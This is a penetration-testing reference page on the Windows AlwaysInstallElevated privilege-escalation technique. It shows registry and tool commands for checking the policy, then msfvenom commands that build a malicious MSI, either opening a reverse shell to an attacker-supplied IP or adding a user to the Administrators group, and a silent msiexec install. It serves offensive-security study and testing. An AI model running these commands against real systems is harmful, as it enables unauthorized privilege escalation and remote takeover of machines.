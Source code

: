 ```yaml
---
description: MITRE ATT&CK™  System Binary Proxy Execution - Msiexec - Technique T1218.007
---
```



# AlwaysInstallElevated 

## Theory

The **AlwaysInstallElevated** policy feature offers ALL users on a Windows operating systemis the ability to install an MSI package file with elevated (system) privileges.

## Practice

{% tabs %}
{% tab title="Enumerate" %}
Manual verification of the activation of this parameter is very simple and can be done with two commands. If it is enabled, it will create the value `AlwaysIntstallElevated` and set it to `0x1` (enabled) on the following two registry keys.
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Alternatively, using [PowerUp](https://github.com/PowerShellMafia/PowerSploit) from Powersploit we can enumerate the AlwaysInstallElevated policy.
```
. .\PowerUp.ps1
Invoke-AllChecks
```

Alternatively, using the `systeminfo` module of [WinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

```powershell
winPEASx64.exe systeminfo
```
{% endtab %}

{% tab title="Exploit" %}
We just have to generate a malicious MSI file and install it with `msiexec.exe`  

Generate a malicious MSI
```bash
# Reverse Shell
v4resk㉿kali$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKING_IP> LPORT=<ATTACKING_PORT> -f msi > package.msi

# Add user to Administrators
v4resk㉿kali$ msfvenom -p windows/exec CMD='net localgroup administrators <YOUR_USER> /add' -f msi > package.msi
```

Then, after downloading it to the target, install the MSI file using msiexec
```powershell
msiexec.exe /quiet /qn /i package.msi
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://juggernaut-sec.com/alwaysinstallelevated/" %}
